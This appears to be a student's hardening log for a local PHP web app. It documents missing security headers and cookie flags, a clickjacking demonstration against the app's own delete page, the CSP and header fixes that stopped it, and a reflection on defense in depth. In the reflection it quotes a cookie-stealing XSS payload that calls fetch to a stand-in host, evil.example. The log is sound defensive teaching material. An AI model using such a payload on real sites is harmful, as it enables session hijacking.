



# MemeForge — Hardening Log

---

## Part A — Baseline (before any change)

### `curl -I http://localhost:8000/`

```
HTTP/1.1 200 OK
Host: localhost:8000
Date: Fri, 13 Nov 2026 16:00:33 GMT
Connection: close
X-Powered-By: PHP/8.4.27
Set-Cookie: PHPSESSID=fa7270ca24d038a8ac8b57e01ab63922; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-type: text/html; charset=UTF-8
```

### Session cookie analysis

Cookie found: `Set-Cookie: PHPSESSID=fa7270ca24d038a8ac8b57e01ab63922; path=/`

The cookie is sent with no security flags:

| Missing flag | Risk |
|---|---|
| `HttpOnly` | Any JavaScript running on the page can read `document.cookie`. If an attacker ever gets a script to run (XSS, a compromised third-party script), they can steal the session ID and hijack the account. |
| `SameSite` | The browser attaches the cookie to requests that come from other sites. This is what makes CSRF possible, and it is also why the framed MemeForge page in Part B was logged in as alice. |
| `Secure` | The cookie can be sent over plain HTTP, so anyone on the network path can sniff it. (Expected on localhost, but it must be set in production over HTTPS.) |

Other observations from the baseline headers:

- `X-Powered-By: PHP/8.4.27` reveals the exact PHP version, which helps an attacker look up known vulnerabilities.
- No `Content-Security-Policy`, no framing protection, no `X-Content-Type-Options`, `Referrer-Policy`, `Permissions-Policy` or `Strict-Transport-Security`.

### Browser DevTools → Network → document request → Response Headers

```
Cache-Control: no-store, no-cache, must-revalidate
Connection: close
Content-Type: text/html; charset=UTF-8
Date: Fri, 13 Nov 2026 16:02:43 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Host: localhost:8000
Pragma: no-cache
X-Powered-By: PHP/8.4.27
```

**Do they match the curl response?**

Mostly yes. The security-relevant headers are identical: both show `X-Powered-By: PHP/8.4.27` and no security headers at all (no CSP, no framing protection, no nosniff, no HSTS). The only real difference is that DevTools shows no `Set-Cookie` header. My browser was already logged in as alice and sent its existing `PHPSESSID` cookie with the request, so PHP reused that session and did not need to set a new cookie, while curl sends no cookie, so PHP started a new session and sent `Set-Cookie`. The browser also lists headers alphabetically, and the `Date` differs because the two requests were made at different times.

---

## Part B — Clickjacking attack

### Description of the attack

The attacker page on `http://localhost:9000` is a different origin from MemeForge (`http://localhost:8000`). It loads MemeForge's real delete confirmation page, `delete.php?id=1`, inside an invisible `<iframe>`, and places a decoy "Claim prize!" button exactly under the frame's red **Yes, delete it** button.

Because alice is logged in to MemeForge in the same browser, her session cookie is sent with the framed request, so the hidden frame shows her real confirmation page with a valid anti-CSRF token already inside the form. When she clicks the decoy, the click actually lands on the invisible **Yes, delete it** button and submits the form. MemeForge receives a legitimate request from the owner of the meme, with a valid token, so the ownership check and the CSRF check both pass and "Patch day" is deleted.

The attack worked because MemeForge sent no framing header (`X-Frame-Options` or CSP `frame-ancestors`), so the browser allowed any website to embed it.

The anti-CSRF token did not help: the attacker never forges a request, the victim submits the real form herself. The ownership check did not help either: clickjacking does not try to delete someone else's meme, it tricks the owner into deleting her own.

### Evidence

Trick revealed (hidden MemeForge frame visible, decoy aligned under the delete button):



Before the fix (after clicking the decoy, meme #1 "Patch day" is gone):



### After the fix (Part C)

After adding `frame-ancestors 'none'` to the Content-Security-Policy, the browser refuses to display MemeForge inside the attacker's frame. The frame is empty, clicking the decoy does nothing, and "Patch day" is still there.



---

## Part C — Security headers and CSP

### Headers added (top of `src/helpers.php`, before `session_start()` and any output)

```php
header_remove('X-Powered-By');

header("Content-Security-Policy: default-src 'self'; img-src 'self' data:; object-src 'none'; base-uri 'self'; form-action 'self'; frame-ancestors 'none'");

header('X-Content-Type-Options: nosniff');
header('Referrer-Policy: strict-origin-when-cross-origin');
header('Permissions-Policy: camera=(), microphone=(), geolocation=()');
header('Strict-Transport-Security: max-age=31536000; includeSubDomains');

/* Session cookie flags (must be set before session_start) */
if (session_status() === PHP_SESSION_NONE) {
    session_set_cookie_params([
        'httponly' => true,
        'samesite' => 'Lax',
        // 'secure' => true,  // NOT on localhost: plain HTTP would break logins
    ]);
    session_start();
}
```

### Rollout process

1. Started with `Content-Security-Policy-Report-Only: default-src 'self'; object-src 'none'; base-uri 'self'; form-action 'self'`.
2. Browsed every page while logged in as alice with the DevTools Console open (gallery, search, single meme, user page, New Meme, Edit, delete confirmation, Account settings, Log in, Register), at full width and at phone width.
3. Fixed the application for each violation (table below). No `'unsafe-inline'` or `'unsafe-eval'` was added.
4. Once the Console was clean, switched the header to `Content-Security-Policy` (enforced) and browsed every page again.

### CSP findings

| # | Blocked resource | Page(s) | Directive | Fix & justification |
|---|---|---|---|---|
| 1 | `https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/css/bootstrap.min.css` | All pages (loaded in `render_header()`) | `style-src` (falls back to `default-src 'self'`) | **Self-hosted** as `public/assets/bootstrap.min.css`. This keeps the policy at `'self'` only. Allowing `cdn.jsdelivr.net` would also allow every other npm package and GitHub file that jsDelivr serves. |
| 2 | `https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/js/bootstrap.bundle.min.js` | All pages (loaded in `render_footer()`) | `script-src` | **Self-hosted** as `public/assets/bootstrap.bundle.min.js`, for the same reason. Scripts are the most dangerous resource type to trust from a shared public host. |
| 3 | Inline `<style>` block (`.navbar-brand .brand-mark { color: #ffc93c; }`) | All pages (`render_header()`) | `style-src` | Moved the rule into `public/assets/app.css` and deleted the `<style>` block. |
| 4 | Inline `style="top: 1rem; z-index: 1;"` attribute | New Meme (`create.php`), Edit (`edit.php`) | `style-src` (inline attribute) | Replaced the attribute with a new `.preview-sticky` class defined in `app.css`. |
| 5 | Inline `<script>` (live caption preview) | New Meme, Edit (`render_preview_script()`) | `script-src` | Moved the code into `public/assets/preview.js`. `render_preview_script()` now only outputs `<script src="assets/preview.js"></script>`. |
| 6 | `data:image/svg+xml…` images coming from inside `bootstrap.min.css` (radio button dot, `<select>` arrow, navbar toggler icon at phone width) | New Meme / Edit (form controls); all pages at phone width (navbar toggler) | `img-src` (falls back to `default-src`) | Added `data:` to **`img-src` only**: `img-src 'self' data:`. A `data:` image cannot run code. `data:` was never added to `script-src`. |

Note: two remaining Console errors, `Permissions policy violation: unload is not allowed` from `chext_driver.js`, come from a Chrome extension, not from MemeForge.

### Verification after enforcing the policy

- Console clean (no MemeForge violations) on: gallery, search, single meme, user page, New Meme, Edit, delete confirmation, Account settings, Log in, Register, at full width and at phone width. 
- New Meme live caption preview still updates while typing. 
- Clickjacking attack re-run: MemeForge refuses to load in the frame and the meme is not deleted. 

`curl -I http://localhost:8000/` after hardening:

```
HTTP/1.1 200 OK
Host: localhost:8000
Date: Fri, 13 Nov 2026 15:51:28 GMT
Connection: close
Content-Security-Policy: default-src 'self'; img-src 'self' data:; object-src 'none'; base-uri 'self'; form-action 'self'; frame-ancestors 'none'
X-Content-Type-Options: nosniff
Referrer-Policy: strict-origin-when-cross-origin
Permissions-Policy: camera=(), microphone=(), geolocation=()
Strict-Transport-Security: max-age=31536000; includeSubDomains
Set-Cookie: PHPSESSID=88e5b29eb4b601c8b97670e529a5e24d; path=/; HttpOnly; SameSite=Lax
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-type: text/html; charset=UTF-8
```

Compared to Part A: `X-Powered-By` is gone, all six security headers are present, and the session cookie now has `HttpOnly` and `SameSite=Lax`. `Secure` is intentionally not set on localhost (see Part D).

---

## Part D — Reflection

### 1. Defense in depth

Output encoding only protects the places where a developer remembered to use it, so one forgotten `e()` call in a new page, or a bug in a library, is enough to reintroduce XSS. A Content-Security-Policy is a second, independent layer enforced by the browser: even if an attacker manages to inject a `<script>` tag, the browser refuses to run inline scripts or scripts from hosts that are not allowed. For example, if a teammate later adds a "featured caption" banner that prints a meme title without escaping it, a title like `<script>fetch('https://evil.example/?c='+document.cookie)</script>` would be stored in the page, but MemeForge's policy (`default-src 'self'`, no `'unsafe-inline'`) would block it. The code was secure today, but the CSP keeps protecting users when the code changes tomorrow.

### 2. Why the token didn't help

An anti-CSRF token stops an attacker from building a fake request from another site, because the attacker cannot read the secret token. In clickjacking, the attacker does not build any request: the hidden frame shows MemeForge's real delete page, which already contains alice's valid token, and alice herself clicks the real button. From the server's point of view, the request is legitimate: correct session, correct token, and the owner deleting her own meme. Forbidding framing with `frame-ancestors 'none'` works because it removes the attack at its source: the browser refuses to display MemeForge inside another site's page, so there is no hidden button to click.

### 3. Trusting a CDN

Allowing `https://cdn.jsdelivr.net` does not allow only Bootstrap: jsDelivr serves any package published on npm and any file from public GitHub repositories. An attacker who finds an XSS bug could publish their own malicious script on npm or GitHub and load it with `<script src="https://cdn.jsdelivr.net/...">`, and the CSP would allow it because the host is trusted. By self-hosting Bootstrap, I kept the policy at `'self'` only, but I took on the responsibility of updating those files myself when Bootstrap releases security fixes. In both cases, an `integrity="sha384-…"` attribute makes the browser check that the file's hash matches the exact version I reviewed, so a modified or compromised file is refused instead of executed.

### 4. What's still untested

MemeForge runs over plain `http://localhost`, and both protections only work over HTTPS. Browsers ignore `Strict-Transport-Security` when it is received over HTTP (and on localhost), so it never forces HTTPS here. A cookie with the `Secure` flag is never sent over HTTP, so enabling it locally would silently break logins. For them to take effect, MemeForge would need to be served over HTTPS with a valid TLS certificate (for example behind a web server or reverse proxy using Let's Encrypt), with HTTP redirected to HTTPS; then `'secure' => true` can be enabled in `session_set_cookie_params()`.